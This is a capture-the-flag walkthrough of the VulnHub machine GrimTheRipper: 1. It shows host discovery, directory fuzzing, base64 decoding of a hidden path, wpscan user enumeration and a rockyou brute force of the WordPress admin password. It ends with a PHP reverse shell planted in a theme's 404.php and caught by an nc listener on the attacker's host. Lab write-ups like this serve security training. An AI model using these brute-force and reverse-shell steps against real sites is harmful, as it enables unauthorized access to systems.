 # GrimTheRipper: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.252 00:0c:29:b1:00:86       VMware, Inc.
192.168.127.254 00:50:56:f1:df:13       VMware, Inc.
```

The IP address is `192.168.127.252`, let's enumerate it

## 2.Enumeration

I started with checking and fuzzing the website and checking robots.txt:

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.252/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.127.252/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
index                   [Status: 200, Size: 55, Words: 2, Lines: 4, Duration: 20ms]
image                   [Status: 200, Size: 67169, Words: 142, Lines: 220, Duration: 1ms]
index2                  [Status: 200, Size: 122, Words: 5, Lines: 12, Duration: 2ms]
robots                  [Status: 200, Size: 24, Words: 1, Lines: 4, Duration: 5ms]
```

we found a new directory `index2` which when you navigate to its page source you find this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/47ebbe17-926f-4a02-9ecf-eebb212461c1)


Try to decode the base64 string :

```bash
root@kali: echo -n 'THpFd01UQXhNREU9IHRyeSBoYXJk' | base64 -d
LzEwMTAxMDE= try hard 
```

and another decode :

```bash
root@kali: echo -n 'LzEwMTAxMDE=' | base64 -d                
/1010101  
```

now we found `/1010101` to check on the server :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/eb82326f-43c5-429e-9348-50912634b1bb)


when you navigate to `wordpress` directory, you will see that all links are broken, this is because all links point to `127.0.0.1`

we can run a port forwarder to redirect these request to server :

```bash
root@kali: socat TCP-LISTEN:80,fork TCP:192.168.127.252:80
```

now all links work fine :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/aba2eba4-8ed8-4707-ae61-f79702af419b)

now i use `wpscan` to find any plugin or user on the target :

```bash
root@kali: wpscan --url http://192.168.127.252/1010101/wordpress/ -e u,ap

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <============================================================================================================> (10 / 10) 100.00% Time: 00:00:01
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

it found no plugin but found user `admin`.

i tried different things but at last i just brute forced the admin user with wpscan to find the password :

put user `admin` into user.txt

```bash
wpscan --url http://192.168.127.252/1010101/wordpress/ -U user.txt -P /usr/share/wordlists/rockyou.txt
```

- found the password : Password@123 

now we can login to admin panel

## 3.Gaining Shell

All we need to do is to edit page `404.php` of `twentytwelve` theme and put a pentestMonkey PHP reverse shell into it and start a listener :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/dc1c9195-ac8d-4d9b-b09c-b5d8acd3872a)



```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.252] 38397
Linux ubuntu 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:51:20 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
 05:12:45 up 51 min,  0 users,  load average: 0.02, 0.25, 0.60
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```











